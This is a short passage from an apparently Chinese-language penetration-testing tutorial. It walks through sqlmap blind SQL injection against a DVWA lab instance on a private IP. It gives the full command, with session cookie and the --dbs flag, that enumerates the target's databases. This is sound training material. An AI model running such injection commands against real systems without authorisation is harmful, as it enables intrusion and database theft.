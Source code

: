 ![show-version](../imgs/wm_425.png)

我们看到它给我们整个网站搭建所使用的平台以及相应的版本号，我们得到使用的是 MySQL 数据库。

在上面的命令之上我们添加 `--dbs` 参数，来攻击数据库，查看有哪些数据库：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" --dbs
```

![show-dbs](../imgs/wm_426.png)
